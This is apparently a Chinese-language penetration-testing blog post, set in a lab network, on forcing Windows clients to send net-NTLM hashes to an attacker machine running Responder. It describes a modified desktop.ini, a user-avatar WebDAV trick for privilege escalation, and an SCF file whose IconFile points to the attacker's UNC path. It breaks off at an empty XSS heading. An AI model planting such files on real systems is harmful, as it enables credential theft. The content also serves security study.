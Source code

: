 ## 前言

参考windows protocol进行实际操作，尝试从服务器向攻击者发起ntlm请求。

使用工具:Responder(可能会遇到版本较低问题，需要自己更新)

可能用到的机器

```
kali 192.168.30.128
pc 192.168.30.20
dc 192.168.30.10
win10 192.168.30.30
```

## 图标

**desktop.ini**

![deskktop](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/pac/deskktop.png)

关闭推荐选项，即可看见隐藏的ini文件(看不见建议修改图标)

将该文件以记事本的方式开启，修改目标为攻击者，当用户访问该文件夹时，即可监听到net ntlm-hash

![evil](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/pac/evil.png)

![v2hash](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/pac/v2hash.png)

**SCF文件**

文件夹底下含有scf后缀的文件时，scf文件包含了IconFile属性，Explore.exe会尝试获取文件的图标。而IconFile是支持UNC路径的。以下是scf后缀的文件的格式

```
[Shell]
Command=2
IconFile=\\192.168.30.128\scf\test.ico
[Taskbar]
Command=ToggleDesktop
```

当用户访问含有该文件的文件夹时，攻击者能够监听到用户的net-ntlm hash

**用户头像**

适用于Windows 10/2016/2019

在更改账户图片处。

用普通用户的权限指定一个webadv地址的图片，如果普通用户验证图片通过，那么SYSTEM用户(域内是机器用户)也去访问172.16.100.180，并且携带凭据，我们就可以拿到机器用户的net-ntlm hash，这个可以用来提权。

## 系统命令携带UNC路径

思路都是利用UNC路径去访问，就和protocol里面说的一样，能执行命令干什么不行呢，知道就行

## XSS
